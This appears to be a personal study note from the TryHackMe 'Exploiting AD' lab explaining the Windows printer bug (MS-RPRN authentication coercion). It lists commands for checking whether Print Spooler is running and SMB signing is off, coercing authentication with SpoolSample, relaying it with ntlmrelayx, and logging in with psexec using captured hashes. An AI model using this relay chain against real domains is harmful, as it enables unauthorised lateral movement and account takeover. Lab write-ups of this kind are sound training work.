





# The Printer Bug

## What is it

The printer bug is a "feature" of the MS-RPRN protocol (PrintSystem Remote Protocol), which allows a domain user to remotely force a target host running the Print Spooler service to authenticate to an arbitrary IP address. There have been a few of these bugs in recent years: Spooler, PetitPotam, PrintNightmare. Microsoft claims that the only bug is that some of these did not require AD credentials at all, but this issue has been resolved through security patches.

Therefore, to exploit this, apart from machine account administrative privileges, we also need to meet the following four conditions :

1. A valid set of AD account credentials.
2. Network connectivity to the target's SMB service.
3. The target host must be running the Print Spooler service.
4. The hosts must not have SMB signing enforced.

## Check requirements

- In Powershell `GWMI Win32_Printer -Computer thmserver2.za.tryhackme.loc` See if Print Spooler service is running or `Get-PrinterPort -ComputerName thmserver2.za.tryhackme.loc`
- Check SMB Signing `nmap --script=smb2-security-mode -p445 <COMPROMISED-HOST> <TARGET-HOST>`  
  

## Attack

- Set up the NTLM relay `python3.9 /opt/impacket/examples/ntlmrelayx.py -smb2support -t smb://"<TARGET-IP>" -debug`  

- From our compromise host we use [SpoolSample](https://github.com/leechristensen/SpoolSample) `SpoolSample.exe THMSERVER2.za.tryhackme.loc "IP of your Attacking machine"`  

- Some hashes should start to drop  

- We can then connect with psexec `python3.9 /opt/impacket/examples/psexec.py thmdc.za/ServerAdmin@10.200.83.201 -hashes HASH:HASH`  

-It is also possible to make a command with ntlmrelay like this `python3.9 ntlmrelayx.py -smb2support -t smb://"<TARGET IP>" -c 'whoami /all' -debug`

## Resources

- [TryHackMe - Exploiting AD - Task 4](https://tryhackme.com/room/exploitingad)